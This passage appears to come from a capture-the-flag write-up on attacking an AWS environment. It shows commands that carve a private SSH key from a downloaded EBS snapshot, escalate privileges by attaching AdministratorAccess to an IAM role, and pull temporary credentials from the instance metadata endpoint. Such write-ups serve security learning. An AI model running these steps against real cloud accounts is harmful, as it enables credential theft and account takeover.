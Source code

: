Either carving the key

```bash
$ ~/.cargo/bin/coldsnap download snap-0d5e806224ae247cf snap-0d5e806224ae247cf.raw
$ strings snap-0d5e806224ae247cf.raw | grep -A30 'PRIVATE KEY' | less
```

Or mounting the filesystem

```bash
┌──(vagrant㉿kali)-[/vagrant]
└─$ fdisk -l snap-0d5e806224ae247cf.raw
Disk snap-0d5e806224ae247cf.raw: 8 GiB, 8589934592 bytes, 16777216 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: gpt
Disk identifier: 33C1FEF2-B351-4A2D-A23D-D9FB1E83BA72

Device                        Start      End  Sectors  Size Type
snap-0d5e806224ae247cf.raw1  227328 16777182 16549855  7.9G Linux filesystem
snap-0d5e806224ae247cf.raw14   2048    10239     8192    4M BIOS boot
snap-0d5e806224ae247cf.raw15  10240   227327   217088  106M EFI System

┌──(root㉿kali)-[/vagrant]
└─# sudo mount -t ext4 -o loop,offset=116391936 snap-0d5e806224ae247cf.raw /mnt
mount: (hint) your fstab has been modified, but systemd still uses
       the old version; use 'systemctl daemon-reload' to reload.
┌──(root㉿kali)-[/mnt]
└─# find . -name "ctf-*"
./home/secureadmin/.ssh/ctf-prod-key.pem
```

# Escalation of privileges

We can deepen our reach in the AWS account by modifying one of the IAM roles. We have access to 2 roles:

 - Jenkins
 - Bastion

And the Jenkins role allows to attach policies to other roles. We can exploit that:

```bash
$ aws iam attach-role-policy --role-name "BastionRole-ee31f43" --policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"
```

Finally using the metadata endpoint on the bastion to get access the IAM role grants us an administrator role in the AWS environment. However this is limited to a selection of permission through SCPs.

```bash
ubuntu@ip-10-80-39-166:~$ curl http://169.254.169.254/latest/meta-data/iam/security-credentials/BastionRole-ee31f43/
{
  "Code" : "Success",
  "LastUpdated" : "2024-11-18T13:03:52Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIA[...]QB",
  "SecretAccessKey" : "t[...]/y",
  "Token" : "IQo[...]9Gk=",
  "Expiration" : "2024-11-18T19:13:23Z"
}
```
